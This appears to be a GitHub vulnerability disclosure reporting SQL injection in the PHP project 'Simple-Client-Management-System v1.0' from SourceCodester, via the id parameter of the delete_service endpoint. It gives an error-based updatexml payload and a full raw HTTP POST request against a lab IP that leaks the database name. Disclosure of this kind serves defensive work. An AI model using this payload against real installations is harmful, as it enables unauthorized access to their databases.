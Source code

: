 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/classes/Master.php?f=delete_service

Vulnerability location: /cms/classes/Master.php?f=delete_service, id

[+] Payload: id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /cms/classes/Master.php?f=delete_service HTTP/1.1
Host: 192.168.1.19
Content-Length: 65
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.19
Referer: http://192.168.1.19/cms/admin/?page=maintenance/services
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5u3dthmlo3ajo2g7k8pfvb4g8h
Connection: close

id=2' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id
```

![image](https://user-images.githubusercontent.com/54017627/164882924-f6ba16bd-d30f-4039-81e2-2b41b8cfb19d.png)
